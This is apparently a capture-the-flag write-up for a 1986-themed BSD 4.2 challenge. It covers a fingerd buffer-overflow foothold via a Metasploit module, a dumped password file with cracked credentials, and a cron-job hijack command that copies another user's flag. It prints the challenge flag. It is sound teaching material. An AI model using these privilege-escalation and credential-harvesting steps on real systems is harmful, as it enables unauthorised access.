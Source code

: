 ```yaml
---
description: Morris Worm - fingerd Stack Buffer Overflow and Cron Job misconfiguration
---
```


# Back in 1986 - User

## Description

tcp://tasks.yauzactf.com:79

Falling asleep on a strange bus in summer, young CTF lover Vasya wakes up in 1986... without money and documents, but with the valuable information about the future and the Kali Linux VM on his laptop. Now he works for KGB and his task is to hack into networks of ""Strategic Defense Initiative Organization"" and ultimately change the history of the USSR. Can he deal with old UNIX systems possessing all the knowledge of modern Linux security and binary exploitation?

## Solution

### Foothold

We're only given port 79. With some initial testing, we can confirm that this is the Finger service.

There are a lot of old exploits for this service, and based on the challenge description, this instance is probably vulnerable to one of those old exploits. Furthermore, the name of the root user is "Charlie Root", which is only seen in BSD 4.2, which is the version vulnerable to a [remote buffer overflow](https://www.exploit-db.com/exploits/19039).

```text
➜  ~ finger root@tasks.yauzactf.com
[tasks.yauzactf.com]
Login name: root      			In real life: Charlie Root
Directory: /                        	Shell: /bin/csh
Never logged in.
No Plan.
```

Luckily, there is a Metasploit module for this exploit, which was used by the Morris Worm back in the 1980s.

![](../.gitbook/assets/screenshot-2021-08-30-at-3.55.33-pm.png)

### Sam User

Once we're in, we notice under `/usr/guest` that there are three users: `sam`, `mckusick` and `karels` \(user directories used to be in `/usr` before the `/home` directory was used\). We could dump the `/etc/passwd` file and crack the hashes \(password shadowing was not yet a thing on BSD 4.2\):

```text
root:NO PASSWORD:0:10:Charlie &:/:/bin/csh
toor:NO PASSWORD:0:10:Bourne-again Superuser:/:
operator:NO PASSWORD:2:28:System &:/usr/guest/operator:/bin/csh
uucp:NO PASSWORD:66:1:UNIX-to-UNIX Copy:/usr/spool/uucppublic:/usr/lib/uucp/uucico
sam:raygun:7:10:& Leffler:/usr/guest/sam:/bin/csh
wnj:wnj12345:8:10:Bill Joy:/usr/guest/wnj:/bin/csh
mckusick:foobar:201:10:Kirk &:/usr/guest/mckusick:/bin/csh
dmr:dmac1:10:31:Dennis Ritchie:/usr/guest/dmr:
shannon:hacker:12:31:Bill &:/usr/guest/shannon:/bin/csh
peter:...hello:13:31:peter b. kessler:/usr/guest/peter:/bin/csh
ralph:whocares:16:31:& Campbell:/usr/guest/ralph:/bin/csh
eric:ithildin:22:31:& Allman:/usr/guest/eric:/usr/new/csh
ghg:biteme:32:31:George Goble:/usr/guest/ghg:/bin/csh
miriam:lancelot:36:10:& Amos:/usr/guest/miriam:/bin/csh
kjd:heartbre:37:10:Kevin Dunlap:/usr/guest/kjd:/bin/csh
tef:fatcat:39:31:Thomas Ferrin:/usr/guest/tef:/bin/csh
van:noexit:40:31:& Jacobson:/usr/guest/van:/bin/csh
rich:fun:41:31:& Hyde:/usr/guest/rich:/bin/csh
jim:haring:42:10:& McKie:/usr/guest/jim:/bin/csh
falcon:joshua:32766:31:Prof. Steven &:/usr/games:/usr/games/wargames
```

Using the `sam:raygun` credentials, we can `su` to the `sam` user.

### Karels User

If we look at the `crontab.local` file, we see that a Cron job is run as the `karels` user every minute.

```text
cat /usr/lib/crontab.local
* * * * * karels /usr/guest/sam/cronwatch.sh
```

The `cronwatch.sh` file is in the `sam` user's directory, so we can control the commands that are run.

```text
echo "cp /usr/guest/karels/user_flag.txt /tmp; chmod a=r /tmp/user_flag.txt" > cronwatch.sh
```

After a minute, we are able to read the `user_flag.txt` file.

```text
cat /tmp/user_flag.txt
YauzaCTF{l1k3_gh0st_1n_th3_w1r3s}
```

